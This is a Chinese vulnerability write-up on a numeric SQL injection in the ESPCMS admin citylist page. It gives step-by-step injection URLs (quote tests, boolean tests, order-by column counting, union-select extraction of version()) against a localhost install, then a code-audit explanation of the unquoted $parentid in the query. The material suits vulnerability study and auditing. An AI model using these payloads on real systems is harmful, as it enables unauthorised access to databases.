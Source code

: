 ## 1 漏洞利用
**需要登录管理员用户后才能利用。**

- 1）漏洞验证
```
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1'
// 加引号后，报错

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=1
// 和 parentid=1 的结果一致

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 and 1=2
// 因为查询条件为 False，没有结果
```
- 2）漏洞利用
```
http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=1 order by 6
// 当尝试到 order by 6 后，返回出错信息，说明数据表为5列

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,3,4,5
// 显示 3，说明 parentid 是表的第 3 列

http://127.0.0.1/espcms/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1 union select 1,2,version(),4,5
// 修改 3 为要获取的信息
```
![](./images/漏洞利用-POC.jpg)


## 2 代码审计
```php
/adminsoft/control/citylist.php	
$sql = "select * from $db_table where parentid=$parentid";
```
根本的问题是 $parentid 没有用引号进行闭合，后续对该变量的过滤都形同虚设，是一个数值型 SQL 注入漏洞。


## 3 该版本已修复漏洞
- 1）二次urldecode注入漏洞
![](./images/已修复-二次urldecode注入漏洞.jpg)